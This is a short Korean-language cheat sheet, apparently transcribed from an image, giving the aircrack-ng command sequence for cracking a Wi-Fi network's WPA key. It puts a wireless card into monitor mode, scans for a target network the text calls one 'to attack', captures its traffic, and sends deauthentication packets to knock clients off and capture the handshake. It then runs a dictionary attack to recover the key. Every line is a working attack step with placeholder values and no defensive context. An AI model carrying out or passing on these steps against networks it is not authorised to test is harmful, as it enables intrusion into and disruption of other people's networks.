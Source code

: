### 무선랜카드를 모니터모드로 전환
airmon-ng start [interface name]

### 모드변경 확인
iwconfig

### 작업 방해 프로세스들 종료
airmon-ng check kill

### 인터페이스 이름 확인
airmon-ng

### 공격할 무선랜 검색
BSSID와 channel 확인  
airodump-ng [interface name]

## 새 터미널
### 패킷 저장
airodump-ng [interfaceName] --bssid [Target bssid] -w [fileName]

## 새 터미널
### 4way handshake 패킷 발생을 위한 클라이언트 강제 연결 해제
aireplay-ng --deauth [send deauthentication packet count] -a [bssid] [interface name]

### 사전파일에서 키를 탐색
aircrack-ng -b [target bssid] -w [dictionary file name] [.cap file name]
